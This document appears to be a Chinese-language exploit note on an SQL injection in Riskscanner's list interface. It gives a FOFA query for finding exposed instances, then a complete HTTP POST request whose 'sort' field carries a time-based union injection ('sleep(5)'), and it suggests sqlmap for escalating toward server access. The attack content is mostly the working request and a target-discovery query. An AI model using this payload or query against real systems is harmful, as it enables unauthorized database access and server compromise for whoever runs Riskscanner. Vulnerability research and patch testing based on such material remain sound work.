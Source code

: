 # Riskscanner list SQL注入漏洞

## 漏洞描述

Riskscanner list接口存在SQL注入漏洞，通过漏洞可获取服务器权限

## 漏洞影响

<a-checkbox checked>Riskscanner</a-checkbox></br>

## FOFA

<a-checkbox checked>title="Riskscanner"</a-checkbox></br>

## 漏洞复现

登录页面



![img](../../../.vuepress/public/img/image-20210718204906366.png)



发送漏洞请求包

```plain
POST /resource/list/1/10 HTTP/1.1
Host: 
Content-Length: 41
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Content-Type: application/json;charset=UTF-8

{"sort":"1)a union select sleep(5) -- -"}
```



![img](../../../.vuepress/public/img/image-20210718204929186.png)



使用工具Sqlmap

![img](../../../.vuepress/public/img/image-20210718204944301.png)